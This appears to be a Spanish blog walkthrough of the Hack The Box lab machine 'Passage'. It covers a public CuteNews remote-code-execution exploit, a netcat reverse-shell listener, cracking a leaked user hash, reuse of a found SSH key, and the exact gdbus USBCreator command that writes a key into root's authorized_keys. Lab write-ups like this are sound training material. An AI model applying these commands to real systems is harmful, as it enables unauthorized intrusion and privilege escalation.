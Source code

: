 ```yaml
---
layout: single
title: Passage - Hack The Box
excerpt: "Resolución de la máquina *Passage* de Hack The Box, una máquina Linux de dificultad media según la plataforma en la cual nos aprovechamos de un exploit para el gestor de noticias *CuteNews* para obtener la intrusión inicial. Después encontraremos el hash del usuario paul y lo crackearemos para obtener su contraseña y migrar a su centa de usuario. Veremos como éste usuario tiene la clave privada ssh del usuario navdav en su directorio home, la utilizaremos y migraremos a su cuenta de usuario, y finalmente nos aprovecharemos de una vulnerabilidad que nos permite crear ficheros con permisos de root para poner nuestra clave pública de ssh en las claves autorizadas del usuario root para conectarnos por ssh sin contraseña con la cuenta de root."
date: 2021-03-08
classes: wide
header:
  teaser: /assets/images/Passage-Hackthebox/passage.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Web Exploiting
  - Privilege Escalation
  - Pentesting
  - Linux
---
```


![](/assets/images/Passage-Hackthebox/passage.png)

Resolución de la máquina *Passage* de Hack The Box, una máquina Linux de dificultad media según la plataforma en la cual nos aprovechamos de un exploit para el gestor de noticias *CuteNews* para obtener la intrusión inicial. Después encontraremos el hash del usuario paul y lo crackearemos para obtener su contraseña y migrar a su centa de usuario. Veremos como éste usuario tiene la clave privada ssh del usuario navdav en su directorio home, la utilizaremos y migraremos a su cuenta de usuario, y finalmente nos aprovecharemos de una vulnerabilidad que nos permite crear ficheros con permisos de root para poner nuestra clave pública de ssh en las claves autorizadas del usuario root para conectarnos por ssh sin contraseña con la cuenta de root.

## Escaneo de puertos

![](/assets/images/Passage-Hackthebox/nmap.png)

Puertos 22 y 80 abiertos.

Empiezo mirando la web en el puerto 80.

![](/assets/images/Passage-Hackthebox/web.png)

No hay robots.txt y en el código fuente tampoco hay nada interesante.

Decido fuzzear con ffuf pero me doy cuenta de que a los pocos segundos de empezar a buscar directorios se corta el acceso a la web, como si me hubieran baneado la ip.

## Intrusión inicial

En el pie de página veo “Powered by CuteNews” así que pruebo con searchsploit a ver si encuentra algo relacionado.

Y bingo! Encuentro ésto CuteNews 2.1.2 - Remote Code Execution

Lo descargo con searchsploit -m php/webapps/48800.py, lo ejecuto y me da diréctamente ejecución de comandos.

![](/assets/images/Passage-Hackthebox/cutenews.png)

Lo siguiente es ponerme en escucha en el puerto 9001 con rlwrap nc -lvnp 9001 y ejecutar una reverse shell en bash para recibir la shell.

![](/assets/images/Passage-Hackthebox/shell.png)

Convierto la shell en una shell totalmente interactiva.
Con which python compruebo de tiene python instalado, y luego como siempre:
```
python -c ‘import pty;pty.spawn(“/bin/bash”)’
ctrl + z
stty raw -echo
fg
export TERM=xterm
```

![](/assets/images/Passage-Hackthebox/interactiva.png)


## Escalada al usuario paul

En el directorio home veo que hay dos usuarios, paul y nadav, pero no puedo listar lo que hay dentro.
Empiezo a enumerar el directorio var/www/html/CuteNews y encuentro un fichero que tiene unos hashes en base64.

El fichero es var/www/html/CuteNews/cdata/users/lines
Y contiene lo siguiente:

![](/assets/images/Passage-Hackthebox/users.png)

Mirando con `echo “texto” | base64 -d` en cada una de las cadenas de texto veo que hay algunas que tienen un hash de usuario.

```
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:

{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-
coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul

Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6c
b43f16f497273cd";s:3:"lts";s:10:"154www-data@passage:/var/www/html/
CuteNews/cdata/users$

a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-
swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim

Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af30
85fbeca";s:3:"lts";s:10:"1592487094www-data@passage:/var/www/html/CuteNews/
cdata/users$

a:1:{s:4:"name";a:1:{s:5:"admin";a:8:
{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nad
av@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a

26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:)www-
data@passage:/var/www/html/CuteNews/cdata/users$

a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:
{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre
55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f6533
1ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"YToyOntzOjQ6InNpbase64:
invalid input
```

Me guardo el hash de paul en un fichero y lo crackeo con hashcat

`hashcat -m 1400 paul.hash tools/wordlist/rockyou.txt`

![](/assets/images/Passage-Hackthebox/hashcat.png)

e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1

Y con `su paul` me convierto en el usuario paul.

![](/assets/images/Passage-Hackthebox/paul.png)

Ya puedo leer el user.txt

## Escalada al usuario navdav

A continuación me pongo a enumerar lo que hay en la home de paul y veo que dentro de .ssh hay claves privadas. Las miro y veo que son del usuario nadav!

Simplemente copio el contenido de la clave privada y lo pego en un fichero local.
Luego cambio los permisos para que no me de error con `chmod 600 id_rsa` y me conecto con `ssh -i id_rsa nadav@10.10.10.206`

![](/assets/images/Passage-Hackthebox/navdav.png)

## Escalada a root

Llegado a este punto empiezo enumerando los ficheros de la home del usuario y veo en .ICEauthority que se repite varias veces el texto MAGIC-COOKIE.
Busco información sobre eso (iceauthority privilege escalation) y encuentro una página en la que explican un bug que permite crear ficheros con permisos de root.

[https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

Ya que puedo crear ficheros con privilegios de root, me creo en mi máquina un par de claves ssh con ssh-keygen. Después copio el contenido de mi clave pública y me creo un fichero en la máquina passage con el contenido de mi clave.

Por último ejecuto

```
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /dev/shm/key /root/.ssh/authorized_keys true
```

para copiar mi clave pública en root/.ssh/authorized_keys :)

Sólo me queda conectarme por ssh con el usuario root, ya que no me va a pedir contraseña.

![](/assets/images/Passage-Hackthebox/root.png)

Ya puedo leer el root.txt
